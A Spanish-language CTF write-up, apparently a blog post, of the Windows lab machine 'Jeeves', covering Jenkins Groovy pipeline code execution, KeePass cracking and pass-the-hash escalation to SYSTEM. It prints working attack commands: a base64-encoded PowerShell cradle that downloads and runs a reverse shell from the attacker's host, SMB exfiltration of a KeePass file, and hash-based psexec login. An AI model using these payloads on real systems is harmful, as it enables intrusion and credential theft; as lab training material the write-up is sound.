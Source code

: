 ```yaml
---
title: 'CTF - Jeeves WriteUp'
date: '2022-02-12'
tags: ["CTF", "Windows", "PassTheHash", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: '![](/static/images/uploads/ctf-jeeves/Jeeves.webp)'
---
```


![](/static/images/uploads/ctf-jeeves/Jeeves.webp)

Escaneamos puertos con NMAP y ejecutamos un análisis más exhaustivo sobre los puertos abiertos. Omitiré la información no relevante.


```
nmap -p80,135,445,50000 -vvv -sCV -n -Pn 10.10.10.63 -oG targeted
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-02-12T22:04:41
|_  start_date: 2022-02-12T21:50:58
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```
Lo primero que observamos es que la firma de smb no es necesaria. A continuación, lo validamos con *crackmapexec*.


```
❯ crackmapexec smb 10.10.10.63
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
```
Estamos ante una máquina Win10 x64 y SMB no está firmado. Esto lo hace potencialmente vulnerable a un ataque de tipo PassTheHash. Continuamos investigando. Entrando en la web y aparece la siguiente imagen.

![](/static/images/uploads/ctf-jeeves/image-17.webp)

Cuando buscas algo, siempre sale la misma ventana de error que no es un error como tal, es un archivo png. No parece que se esté ejecutando nada.

Aplico Fuzzing contra el puerto 80 y el puerto 50000. En este segundo puerto, parece que encuentro una ruta disponible en */askjeeves*.


```
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt "http://10.10.10.63:50000/FUZZ"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
Target: http://10.10.10.63:50000/FUZZ
Total requests: 220560
=====================================================================
ID           Response   Lines    Word       Chars       Payload 
=====================================================================
000041607:   302        0 L      0 W        0 Ch        "askjeeves"
```
Accedo a la URL y encuentro un Jenkins de v2.87.

![](/static/images/uploads/ctf-jeeves/image-18.webp)

Encontramos una [vulnerabilidad](https://cxsecurity.com/issue/WLB-2019020120) con el pipeline de Jenkins para esa versión. Hacemos una prueba rápida colocando un comando en la ventana de configuración del pipeline.

![](/static/images/uploads/ctf-jeeves/image-19.webp)

*Es importante seleccionar el Sandbox de Groovy que es quien tiene la vulnerabilidad*.

Ponemos en escucha *tcpdump* y vemos si hay respuesta cuando ejecutamos el pipeline.

![](/static/images/uploads/ctf-jeeves/image-20.webp)

Se acontece la vulnerabilidad. Modificamos el script de arriba para que nos entable una reverse shell.

Para ello, vamos a enviar a la consola de Powershell un código codificado en base64. El código en cuestión es el siguiente.


```
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/PS.ps1')
```
Esto descargará un script desde nuestro equipo y lo ejecutará en el entorno remoto. Dicho script contiene una reverse shell descargada del repositorio de [Nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) que modificaremos a nuestro gusto.

La forma de codificarlo a base64 pasa por cambiar el encoding a UTF-16LE si queremos tener en consideración a [Microsoft](https://docs.microsoft.com/es-es/powershell/module/microsoft.powershell.core/about/about_character_encoding?view=powershell-7.2). De lo contrario, probablemente no podrá ejecutar nuestro comando.


 En general, Windows PowerShell tiene configurada la codificación UNICODE [UTF-16LE](https://wikipedia.org/wiki/UTF-16) de forma predeterminada.

Para ello, ejecutamos el siguiente código.


```
❯ echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/PS.ps1')"data
❯ cat data | iconv -t utf-16le | xxd
00000000: 4900 4500 5800 2800 4e00 6500 7700 2d00  I.E.X.(.N.e.w.-.
00000010: 4f00 6200 6a00 6500 6300 7400 2000 4e00  O.b.j.e.c.t. .N.
00000020: 6500 7400 2e00 5700 6500 6200 4300 6c00  e.t...W.e.b.C.l.
00000030: 6900 6500 6e00 7400 2900 2e00 6400 6f00  i.e.n.t.)...d.o.
00000040: 7700 6e00 6c00 6f00 6100 6400 5300 7400  w.n.l.o.a.d.S.t.
00000050: 7200 6900 6e00 6700 2800 2700 6800 7400  r.i.n.g.(.'.h.t.
00000060: 7400 7000 3a00 2f00 2f00 3100 3000 2e00  t.p.:././.1.0...
00000070: 3100 3000 2e00 3100 3400 2e00 3200 3100  1.0...1.4...2.1.
00000080: 2f00 5000 5300 2e00 7000 7300 3100 2700  /.P.S...p.s.1.'.
00000090: 2900 0a00                                )...
❯ cat data | iconv -t utf-16le | base64 -w0; echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMQAvAFAAUwAuAHAAcwAxACcAKQAKAA==powershell
```
Copiamos el código final en base64 y lo adjuntamos a nuestro exploit del pipeline de Jenkins.


```
node {
   powershell 'powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMQAvAFAAUwAuAHAAcwAxACcAKQAKAA=='
}
```
Ponemos un servidor en nuestro equipo que acepte la descarga del script y en otra ventana netcat en escucha en el puerto 443.

Ejecutamos el pipeline en Jenkins.

![](/static/images/uploads/ctf-jeeves/image-21.webp)

Recibimos la consola de nuestro lado.


```
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.63] 49685
Windows PowerShell running as user kohsuke on JEEVES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator\.jenkins\workspace\test whoami
jeeves\kohsuke
PS C:\Users\Administrator\.jenkins\workspace\test cat C:\Users\kohsuke\Desktop\user.txt    
e323xxxxxxxxxxxxxxxxxxxxxxxxxxx
```
Obtenemos la primera flag y continuamos con el escalado de privilegios.

En la carpeta documentos del usuario, descubrimos un archivo kdbx. Esta extensión pertenece a [KeePass](https://www.file-extension.info/es/format/kdbx).


```
PS C:\Users\kohsuke\Documentsls
CEH.kdbx
```
Para descargarnos el archivo a nuestro equipo, montamos un servidor samba.


```
❯ impacket-smbserver smbFolder $(pwd) -smb2support
```
Y nos copiamos el archivo directamente en nuestro equipo.


```
PS C:\Users\kohsuke\Documentscopy CEH.kdbx \\10.10.14.21\smbFolder\CEH.kdbx
```
Primero obtenemos el hash de la contraseña con *keepass2john*, ejecutamos *[John The Ripper](https://www.openwall.com/john/)* con el diccionario [Rockyou](https://www.quora.com/How-many-passwords-are-in-rockyou-txt#:~:text=The%20rockyou.txt%20that%20comes,2020.2a%20contains%2014%2C442%2C063%20words.) que contiene más de 14 millones de las contraseñas más utilizadas y mostramos los resultados.


```
❯ keepass2john CEH.kdbx  hash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
❯ john -show hash
CEH:mooxxxxx
```
Parece que los resultados han sido positivos. Usamos la contraseña para abrir el archivo *kdbx* en un cliente de KeePass como [KeePassXC](https://keepassxc.org/).

![](/static/images/uploads/ctf-jeeves/image-22.webp)

La entrada seleccionada en la imagen contiene una contraseña que parece ser un hash [NTLM](https://security.stackexchange.com/questions/161889/understanding-windows-local-password-hashes-ntlm) del usuario administrador. Validamos el hash con *crackmapexec*.


```
❯ crackmapexec smb 10.10.10.63 -u "Administrator" -H "e0fbxxxxxxxxxxxxxxxxxxx"
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator e0fbxxxxxxxxxxxxxxxx (Pwn3d!)
```
**Como aparece la palabra (Pwn3d!), confirmamos que el hash es correcto.**

A continuación, ejecutamos *psexec.py* para entablar una shell.


```
❯ psexec.py WORKGROUP/administrator@10.10.10.63 -hashes :e0fbxxxxxxxxxxxxxxxxxxxxxx
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32 whoami
nt authority\system
```
Estamos dentro como usuario Administrator y buscamos la flag.

En el escritorio encontramos un archivo que nos dice que lo que buscamos está en algún otro sitio más profundo.


```
C:\Users\Administrator\Desktop type hm.txt
The flag is elsewhere.  Look deeper.
```
NTFS tiene la posibilidad de almacenar la información en distintos streams de datos. Se puede encontrar más información [aquí](https://www.deepinstinct.com/blog/the-abuse-of-alternate-data-stream-hasnt-disappeared). Para enumerar todos los archivos/streams de archivos se emplea el parámetro /r.

Después, invocamos el comando [more](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/more) de Powershell para ver el siguiente stream de información. 


```
C:\Users\Administrator\Desktop dir /r
 Directory of C:\Users\Administrator\Desktop

11/08/2017  09:05 AM     .
11/08/2017 09:05 AM  ..
12/24/2017 02:51 AM 36 hm.txt
 34 hm.txt:root.txt:$DATA

C:\Users\Administrator\Desktop more  hm.txt:root.txt
afbcxxxxxxxxxxxxxx
```
